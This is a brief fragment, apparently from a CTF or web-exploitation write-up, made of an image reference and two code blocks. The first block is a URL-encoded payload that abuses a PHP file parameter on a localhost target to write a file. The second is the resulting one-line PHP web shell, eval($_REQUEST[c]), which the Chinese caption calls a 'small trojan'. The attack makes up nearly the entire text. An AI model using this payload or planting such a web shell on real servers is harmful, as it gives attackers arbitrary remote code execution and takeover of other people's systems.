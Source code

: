 Payload : 
```
http://127.0.0.1/?file=http://127.0.0.1/?file%3dhttp%3a%2f%2f127.0.0.1%2f%26path%3d%253C%3fphp%2520eval(%24_REQUEST%5bc%5d)%3b%3f%253E.php&path=c.php
```
生成小马(c.php) : 
```
<?php eval($_REQUEST[c]);?>
```
